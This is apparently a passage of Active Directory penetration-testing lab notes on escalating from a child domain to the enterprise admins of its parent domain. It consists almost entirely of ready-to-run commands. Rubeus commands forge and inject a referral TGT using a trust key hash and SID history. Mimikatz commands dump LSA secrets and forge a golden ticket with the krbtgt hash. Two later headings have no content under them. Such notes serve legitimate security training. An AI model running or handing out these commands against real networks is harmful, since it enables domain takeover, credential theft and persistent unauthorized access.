 #### Abuse with Rubeus
##### Forge a referral TGT
```powershell
C:\AD\Tools\Rubeus.exe silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:17e8f4d3f4b46e95048a66a5dd890ee3 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```
##### Use the Forged Ticket
```powershell
C:\AD\Tools\Rubeus.exe asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```
| Option | Description |
|---|---|
| silver | Name of the module
| /rc4:17e8f4d3f4b46e95048a66a5dd890ee3 | NTLM hash of the trust key
| /sid:S-1-5-21-719815819-3726368948-3917688648 | SID of the current domain
| /sids:S-1-5-21-335606122-960912869-3279953914-519 | SID of the enterprise admins group of the parent domain
| /ldap | Retrieve PAC information from the current domain DC
| /user:Administrator | Username for which the TGT is generated
| /nowrap | No newlines in the output

#### Abuse with krbtgt hash
##### Abuse SIDHistory Again
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

#### Trust Tickers - Across Forest

#### Accross Domain - AD CS


















